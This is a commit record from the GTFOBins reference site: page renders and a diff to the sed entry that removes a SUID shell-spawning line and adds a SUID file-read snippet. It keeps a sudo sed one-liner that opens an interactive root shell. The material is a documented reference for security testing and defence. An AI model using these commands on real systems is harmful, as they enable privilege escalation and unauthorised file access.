

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/sed.md, in a window 1280 px wide and 900 px high, scrolled down 620 px. Shown: the top 870 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Remove invalid SUID execute from sed

```diff
--- a/_gtfobins/sed.md
+++ b/_gtfobins/sed.md
@@ -10,8 +10,9 @@ functions:
     - description: GNU version only. Also, this requires `bash`.
       code: sudo sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
   suid-enabled:
-    - description: GNU version only. Also, this requires `bash`.
-      code: ./sed -n "1e /bin/bash -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" /etc/hosts
+    - code: |
+        LFILE=file_to_read
+        ./sed -e '' "$LFILE"
   file-read:
     - code: |
         LFILE=file_to_read
```
